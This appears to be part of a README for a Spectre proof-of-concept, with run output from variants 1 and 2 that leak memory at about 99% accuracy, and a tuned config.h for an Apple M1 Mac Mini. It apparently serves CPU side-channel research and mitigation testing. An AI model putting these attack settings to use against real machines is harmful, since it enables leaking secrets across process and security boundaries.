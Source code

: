 **Variant 1:**
```
$ ./spectre
[Spectre Variant 1]
miss: 160, hit: 44, threshold: 131
Eviction set found!
Eviction set found!
leaked 10240 byte in 6116 ms. (1674.30 bytes/s) correct: 80936 / 81920 bits (98.80 %)
setup took: 628 ms.
```

**Variant 2**
```
$ ./spectre
[Spectre Variant 2]
miss: 164, hit: 44, threshold: 134
Eviction set found!
Eviction set found!
leaked 10240 byte in 8829 ms. (1159.81 bytes/s) correct: 81267 / 81920 bits (99.20 %)
setup took: 667 ms.
```


### M1 Mac Mini ###

**config.h:**
```
#ifndef CONFIG_H
#define CONFIG_H

/* --- Constants --- */
#define EVICTION 0
#define FLUSHING 1
#define MSR 0
#define COUNTER_THREAD 1


/* --- Generic --- */
#define VERBOSITY 0
#define CACHE EVICTION
#define TIMER COUNTER_THREAD
#define PAGE_SIZE 16384


/* --- Eviction --- */
// #define EVICTION_THRESHOLD 220 /* use calibration */
#define EVICTION_SET_SIZE 32
#define EVICTION_MEMORY_SIZE 20 * 1024 * 1024

/* --- Spectre --- */
#define VARIANT /* 1 or 2 */
#define BITS 2
#define ENTRY_SIZE 512
#define ITERATIONS 4
#define VICTIM_CALLS 40
#define TRAINING 9
#define THRESHOLD 120
#define BENCHMARK 1

/* --- Calculated automatically --- */
#define OFFSETS_PER_BYTE (8 / BITS)
#define VALUES (1 << BITS)

/* --- Mitigation --- */
#define MITIGATION_ASM
#define MITIGATION
```